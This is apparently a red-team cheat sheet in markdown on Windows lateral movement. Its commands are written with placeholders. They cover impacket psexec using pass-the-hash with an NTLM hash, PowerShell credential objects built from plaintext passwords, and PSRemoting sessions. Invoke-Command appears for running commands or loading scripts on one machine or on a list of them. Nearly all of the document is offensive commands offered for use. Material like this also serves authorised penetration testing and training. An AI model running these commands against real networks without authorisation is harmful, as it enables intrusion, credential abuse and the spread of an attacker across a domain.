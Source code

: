 #### Psexec then pssession
- https://github.com/maaaaz/impacket-examples-windows
```
.\psexec_windows.exe <DOMAIN>/<USER>@<TARGET FQDN> -hashes :<NTLM HASH>
powershell.exe
$password = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER>', $password)
$sess = new-pssession -credential $creds -computername <TARGET FQDN>
enter-pssession $sess
```

## Lateral Movement Techniques
### PSSession
- Uses winrm / wmi
- Work with the `-Credential $creds` parameter.

#### Check if PSRemoting is enabled on target machine
```
Test-WSMan -ComputerName <IP> -Verbose
```

#### Create credential object
```
$creds = get-credential

$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)
```

#### Connect to machine
```
Enter-PSSession -Computername <COMPUTERNAME>
```

#### Connect to machine and save in session variable
```
$sess = New-PSSession -Computername <COMPUTERNAME>
Enter-PSSession $sess
```

#### Execute commands on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -Scriptblock {<COMMAND>} 
Invoke-Command -Scriptblock {<COMMAND>} $sess
```

#### Load script on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -FilePath <PATH>
Invoke-Command -FilePath <PATH> $sess
```

#### Run commands on multiple machines
```
Invoke-Command –Scriptblock {<COMMAND>} -ComputerName (Get-Content computers.txt)
```
